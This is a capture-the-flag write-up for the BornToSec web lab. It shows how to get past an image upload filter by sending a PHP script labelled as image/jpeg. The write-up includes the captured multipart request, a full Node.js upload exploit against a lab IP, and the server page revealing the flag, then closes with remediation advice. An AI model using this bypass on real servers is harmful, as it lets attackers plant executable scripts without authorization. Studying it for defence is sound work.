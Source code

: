 # File upload bypass mock image content/type and sending script

Source: https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number

On the page `http://IP/?page=upload`, we can find a image upload form.
After trying uploading differents type of files, we assume that the server only accepts `jpg` format files.
We also know that the form uses multipart/formData.

## Bypassing the filename parser

We tried to trick the server verification by passing junk data in the filename such as:

- script.jpg.php
- file.png.jpg.php
...

The server continues rejecting are upload attempts.

## Mocking the file content-type

After submitting a request without selecting any file, by inspecting the browser.
You can copy the page's initiating request:

```js
fetch("http://IP/?page=upload", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "max-age=0",
    "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryXayOWrhdk6J4aXb0",
    "upgrade-insecure-requests": "1",
    "cookie": "I_am_admin=68934a3e9455fa72420237eb05902327",
    "Referer": "http://IP/?page=upload",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0--\r\n",
  "method": "POST"
});
```

Request within you can find the default body:
```text
------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0--\r\n")
------WebKitFormBoundaryXayOWrhdk6J4aXb0
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryXayOWrhdk6J4aXb0
Content-Disposition: form-data; name="uploaded"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryXayOWrhdk6J4aXb0
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryXayOWrhdk6J4aXb0--

```

Either from the form html structure than from the empty request body, you can find the formData entries.

- `uploaded` stores the file
- `MAX_FILE_SIZE` ( not safe either )
- `Upload` the submit button upload

The next step is to manually create the same formData with a custon `content-type` equal to `image/jpeg` but in reality would contain an evil script.

### The whole script
```js
try {
        const form = new formData()
        form.append('uploaded', await fs.readFile('./script.php'), {
            contentType: 'image/jpeg',
            filename: "script.php"
        });
        form.append('MAX_FILE_SIZE', 10_000);
        form.append('Upload', "Upload")

        const response = await fetch("http://192.168.56.101/?page=upload", {
            "headers": {
                "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
                "accept-language": "en-US,en;q=0.9",
                "cache-control": "max-age=0",
                ...form.getHeaders(),
                "upgrade-insecure-requests": "1",
                "cookie": "I_am_admin=68934a3e9455fa72420237eb05902327",
                "Referer": "http://192.168.56.101/?page=upload",
                "Referrer-Policy": "strict-origin-when-cross-origin"
            },
            "body": form,
            "method": "POST"
        });
        console.log(await response.text())
    } catch (e) {
        console.error(e)
    }
```

By running this Node.js script we're able to retrieve the flag in the rendered server's page.

```html
<!DOCTYPE HTML>
<html>
   <head>
      <title>BornToSec - Web Section</title>
      <meta http-equiv="content-type" content="text/html; charset=utf-8" />
      <meta name="description" content="" />
      <meta name="keywords" content="" />
      <!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
      <script src="js/jquery.min.js"></script>
      <script src="js/skel.min.js"></script>
      <script src="js/skel-layers.min.js"></script>
      <script src="js/init.js"></script>
      <noscript>
         <link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
         <link rel="icon" type="image/x-icon" href="favicon.ico" />
         <link rel="stylesheet" href="css/skel.css" />
         <link rel="stylesheet" href="css/style.css" />
         <link rel="stylesheet" href="css/style-xlarge.css" />
      </noscript>
   </head>
   <body class="landing">
      <!-- Header -->
      <header id="header" >
         <a href=http://192.168.56.101><img src=http://192.168.56.101/images/42.jpeg height=82px width=82px/></a>
         <nav id="nav">
            <ul>
               <li><a href="index.php">Home</a></li>
               <li><a href="?page=survey">Survey</a></li>
               <li><a href="?page=member">Members</a></li>
            </ul>
         </nav>
      </header>
      <!-- Main -->
      <section id="main" class="wrapper">
         <div class="container" style="margin-top:75px">
            <pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre>
            <pre>/tmp/coco.php succesfully uploaded.</pre>
            <table width=50%>
               <tr style="background-color:transparent;border:none;">
                  <td colspan=2>
                     <h2 align=center>File upload:</h2>
                  </td>
               </tr>
               <tr style="background-color:transparent;border:none;">
                  <td align=center style="vertical-align:middle;">
                     <img src="images/upload.png" width=150px/>
                  </td>
                  <td>
                     <form enctype="multipart/form-data" action="#" method="POST">
                        <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
                        Choose an image to upload:
                        <br />
                        <input name="uploaded" type="file" /><br />
                        <br />
                        <input type="submit" name="Upload" value="Upload">
                     </form>
                  </td>
               </tr>
            </table>
         </div>
      </section>
      <!-- Footer -->
      <footer id="footer">
         <div class="container">
            <ul class="icons">
               <li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>
               <li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>
               <li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>
            </ul>
            <ul class="copyright">
               <a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f">
                  <li>&copy; BornToSec</li>
               </a>
            </ul>
         </div>
      </footer>
   </body>
</html>
```

Solution:

The server should never trust the client income information, as they can be completly customed by anyone.
There's a lot of native solutions to securily verify the input file, such as [imagetype](https://www.php.net/manual/fr/function.exif-imagetype.php) or [finfo](https://www.php.net/manual/fr/function.finfo-file.php).
